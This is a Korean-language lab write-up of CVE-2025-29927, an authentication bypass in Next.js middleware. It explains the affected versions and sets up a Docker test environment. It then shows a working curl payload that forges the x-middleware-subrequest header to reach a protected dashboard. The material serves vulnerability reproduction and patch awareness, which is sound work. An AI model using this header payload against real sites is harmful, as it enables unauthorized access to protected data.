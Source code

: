# CVE-2025-29927

> [천재권 (@wornjss1002)](https://github.com/wornjss1002)

<br/>

### 요약

- Next.js는 서버 사이드 렌더링, 정적 사이트 생성, 통합 라우팅 시스템 등의 기능을 제공하는 인기 있는 React 기반 웹 애플리케이션 프레임워크
- 인증 및 권한 부여를 위해 미들웨어를 사용하는 구성에서, 버전 14.2.25 및 15.2.3 이전의 버전들은 인증 우회 취약점에 노출되어 있음
- 이 취약점을 이용하면 공격자가 x-middleware-subrequest 헤더를 조작하여 미들웨어 기반 보안 제어를 우회하고, 보호된 자원 및 민감한 데이터에 무단으로 접근할 수 있습니다

<br/>

### 환경 구성 및 실행

- `docker compose up -d`를 실행하여 테스트 환경을 실행
- `curl -i http://your-ip:3000` 정상적인 인증 없이 대시보드에 접근을 시도하면, 로그인 페이지로 리디렉션

![](1.png)

- `curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000`
  - 요청에 다음과 같이 x-middleware-subrequest 헤더를 추가합니다. 이 때 값은 middleware:middleware:middleware:middleware:middleware로 설정
  - Next.js 미들웨어가 이 헤더를 잘못 처리하게 되어 인증 검사를 우회

<br/>

### 결과

![](2.png)

<br/>

### 정리

  이 취약점은 공격자가 인증 우회를 통해 보호된 자원에 접근할 수 있게 만들어, 민감한 정보가 유출될 위험이 있다. 해당 취약점을 사전에 점검하고 신속히 패치하는 것이 중요하다.
